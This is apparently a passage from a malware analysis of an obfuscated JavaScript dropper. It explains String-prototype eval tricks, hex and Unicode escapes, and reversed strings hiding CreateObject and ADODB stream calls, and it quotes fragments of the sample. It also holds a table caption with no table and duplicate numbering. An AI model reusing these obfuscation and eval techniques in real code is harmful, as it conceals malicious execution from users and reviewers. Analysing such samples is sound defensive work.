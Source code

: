 *Table 1: Summary Table of the code majority functions and purpose*


### Detailed Code Analysis

1. **Modification of String Prototype**:
   The line `String["prototype"].proc = function() { eval(this.toString()); };` defines a new method `proc` on the String prototype that evaluates the string content when called. This can lead to arbitrary code execution.

2. **Dynamic Function Creation**:
   The second function defined in the prototype appears to manipulate arrays. It takes two parameters, `xx` and `xy`, and copies the first three elements from `xy` to `xx`, starting from the fourth position. This might be used to obscure some functionality or manipulate data.

3. **Obfuscation**:
   The code uses various obfuscation techniques, such as hexadecimal and Unicode encoding. For example, the string `"\x75\x6E\x64\x65\x66\x69\x6E\x65\x64"` represents the word `undefined`. Such practices are typical in malicious scripts to hide their true intentions.

4. **String Manipulation**:

   ```javascript
        String.\u0070\u0072\u006F\u0074\u006F\u0074\u0079\u0070\u0065.\u006D\u006F\u0075\u0073\u0065 = {
            mp3: function() {
                var d = "";
                for (var i = 0; i < this.toString().length; i++) {
                    d = eval("var cd = this.toString().substr(i, 1);cd;") + d;
                }
                return d;
            }
        }.mp3;
    ```

This method constructs a string in reverse, leveraging eval, which can be used to execute code dynamically.


5. **Array Manipulation**:

    ```javascript
            var \u006D\u0033\u004D\u006F\u0072\u0059\u006B\u0041\u0064 = [
            null,
            (
                "\x43\x72\x65\x61\x74\x65\x4F\x62\x6A\x65\x63\x74" + 
                "txeTdaeR|".mouse() + 
                "|undefined|" + 
                "\x61\x64\x6F\x64\x62\x2E|" + 
                "noitisoP|" + 
                "teSrahC".mouse()
            ).split("|").concat("epyT".mouse(), "nepO".mouse())
            ];
    ```


This variable is defined as an array that contains various strings, some of which are reversed or obfuscated. The use of __.mouse()__ suggests that the script may have additional methods that are not shown in this snippet yet but we will dive deeper later.


5. **Regular Expressions and Replacement:**:

    ```javascript

            var exp = /{(\d+)}/g;
   ```